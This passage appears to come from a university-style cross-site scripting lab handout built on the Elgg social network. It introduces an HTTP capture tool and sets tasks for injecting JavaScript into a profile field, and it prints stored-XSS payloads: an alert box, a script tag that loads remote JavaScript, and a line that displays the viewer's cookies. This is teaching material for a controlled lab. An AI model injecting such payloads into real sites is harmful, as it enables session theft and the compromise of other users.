 When you copy and paste code from this PDF file, very often, the quotation marks, especially single quote,
may turn into a different symbol that looks similar. They will cause errors in the code, so keep that in mind.
When that happens, delete them, and manually type those symbols.

### 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

In this lab, we need to construct HTTP requests. To figure out what an acceptable HTTP request in Elgg
looks like, we need to be able to capture and analyze HTTP requests. We can use a Firefox add-on called


"`HTTP Header Live`" for this purpose. Before you start working on this lab, you should get familiar
with this tool. Instructions on how to use this tool is given in the Guideline section (§ 5.1).

### 3.2 Task 1: Posting a Malicious Message to Display an Alert Window

The objective of this task is to embed a JavaScript program in your `Elgg` profile, such that when another
user views your profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:

```
<script>alert(’XSS’);</script>
```
If you embed the above JavaScript code in your profile (e.g. in the brief description field), then any user
who views your profile will see the alert window.
In this case, the JavaScript code is short enough to be typed into the short description field. If you want
to run a long JavaScript, but you are limited by the number of characters you can type in the form, you can
store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the
` src` attribute in the `<script>` tag. See the following example:
```
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```
In the above example, the page will fetch the JavaScript program from `http://www.example.com` ,
which can be any web server.

### 3.3 Task 2: Posting a Malicious Message to Display Cookies

The objective of this task is to embed a JavaScript program in your `Elgg` profile, such that when another
user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding
some additional code to the JavaScript program in the previous task:
```
<script>alert(document.cookie);</script>
```
